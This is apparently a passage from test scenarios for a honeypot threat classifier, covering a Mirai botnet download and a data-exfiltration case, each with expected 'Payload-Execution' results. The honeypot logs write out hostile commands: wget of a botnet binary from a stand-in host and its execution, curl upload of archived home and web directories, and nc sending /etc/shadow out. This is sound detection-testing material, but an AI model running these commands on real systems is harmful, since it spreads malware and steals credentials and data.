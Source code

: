 **Expected Result:**
- ✅ Flagged as malicious
- Threat Type: **Payload-Execution**
- Threat Score: Critical
- Attack Pattern: Backdoor installation with root access

---

### **Scenario 11: Botnet Malware** 🤖
**IP:** `103.253.145.28`  
**Expected Classification:** **Payload-Execution**

**Characteristics:**
- From honeypot logs only
- **3 suspicious commands** (wget botnet, chmod, execute scanner)

**Honeypot Activity:**
- Session: `botnet_session_1`
- Commands:
  - `cd /tmp && wget http://botnet-master.xyz/mirai.arm7 -O mirai` ⚠️
  - `chmod +x mirai` ⚠️
  - `./mirai scanner` ⚠️ **BOTNET SCANNER**
- Outgoing connections: 2 (telnet scans on ports 23, 2323)
- Duration: 33.6 seconds
- Behavior: **Mirai botnet propagation**

**Expected Result:**
- ✅ Flagged as malicious
- Threat Type: **Payload-Execution**
- Threat Score: Critical
- Attack Pattern: Botnet malware with scanning

---

### **Scenario 12: Data Exfiltration** 📤
**IP:** `159.65.88.249`  
**Expected Classification:** **Payload-Execution**

**Characteristics:**
- From honeypot logs only
- **3 suspicious commands** (tar compress, curl upload, nc exfiltration)

**Honeypot Activity:**
- Session: `data_exfil_1`
- Commands:
  - `tar -czf /tmp/data.tar.gz /home /var/www` ⚠️
  - `curl -F 'file=@/tmp/data.tar.gz' http://exfil-server.net/upload` ⚠️
  - `nc -w 3 exfil-server.net 9999 < /etc/shadow` ⚠️ **DATA EXFILTRATION**
- Outgoing connections: 2 (to exfiltration server on port 9999)
- Duration: 42.5 seconds
- Behavior: **Data theft and exfiltration**

**Expected Result:**
- ✅ Flagged as malicious
- Threat Type: **Payload-Execution**
- Threat Score: Critical
- Attack Pattern: Data exfiltration with compression

---